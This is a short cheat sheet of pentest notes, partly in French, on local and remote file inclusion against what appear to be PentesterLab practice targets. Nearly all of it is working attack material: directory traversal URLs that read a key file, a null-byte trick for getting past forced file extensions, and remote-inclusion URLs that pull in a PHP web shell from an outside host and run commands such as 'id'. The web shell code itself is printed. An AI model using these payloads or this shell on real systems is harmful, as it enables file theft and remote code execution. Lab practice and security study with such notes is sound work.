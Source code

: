 # LFI : Local file Inclusion


https://highon.coffee/blog/lfi-cheat-sheet/



## Dotdotpwn



## Fimap


## Dir Traversal
Put as many ../../../../../, you stay at /


Check local directory as begin of url
http://ptl-0d8845c8-0b63b08f.libcurl.so/file.php?file=/var/www/../../../../../pentesterlab.key

Bypass extension by adding %00 at the end (work for php<5.3.4)
http://ptl-ded93138-2771189a.libcurl.so/file.php?file=../../../../../../pentesterlab.key%00

Use php include() to do external url include
http://ptl-08a17b2b-81673f5e.libcurl.so/?page=https://assets.pentesterlab.com/test_include_system.txt&c=id
Avec sur un serveur ce code dispo 
<?php 
  system($_GET['c']);
?>

PAge utile : https://assets.pentesterlab.com/test_include_system.txt?c=uname
Le ? devient un & en sous url

Php include() avec ajout de suffixe .php, on supprime le suffixe avec un %00
http://ptl-f93fe94d-4bfe7663.libcurl.so/?page=https://assets.pentesterlab.com/test_include_system.txt%00&c=id

